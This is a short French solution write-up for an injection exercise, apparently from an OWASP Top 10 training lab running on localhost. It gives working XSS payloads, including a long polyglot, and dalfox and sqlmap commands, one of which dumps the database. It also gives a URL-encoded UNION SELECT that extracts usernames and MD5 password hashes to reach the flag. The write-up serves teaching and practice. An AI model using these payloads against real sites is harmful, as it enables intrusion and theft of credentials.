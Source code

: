 # Solution
## A03 - Injection

Nous avons une page avec une injection SQL et une XSS. Pour la XSS, nous pouvons tester avec `<script>alert(1)</script>` dans le champ de recherche et cela fonctionne. Nous aurions pu aussi utiliser `"><svg/onload=alert(1)>` ou alors une polyglotte : 
```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
Source : https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

Nous pouvons aussi utiliser l'outil [dalfox](https://github.com/hahwul/dalfox) (XSSStrike n'est plus maintenu..) pour trouver des XSS :
```bash
dalfox url http://localhost:8042/A03.php -X POST -d comment=test
```

Pour l'injection SQL nous pouvons tester avec SQLmap assez naturellement :
```bash
sqlmap -u "http://localhost:8042/A03.php?username=admin"
sqlmap -u "http://localhost:8042/A03.php?username=admin" --dump
```

Nous pouvons aussi tester avec des injections manuelles :
```sql
http://localhost:8042/A03.php?username=admi%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x71786b6a71%2CJSON_ARRAYAGG%28CONCAT_WS%280x6176666d7877%2Cid%2Cmd5_password%2Cusername%29%29%2C0x717a767171%29%2CNULL%20FROM%20vulnerable_app.users--%20-
```

Nous obtenons le flag.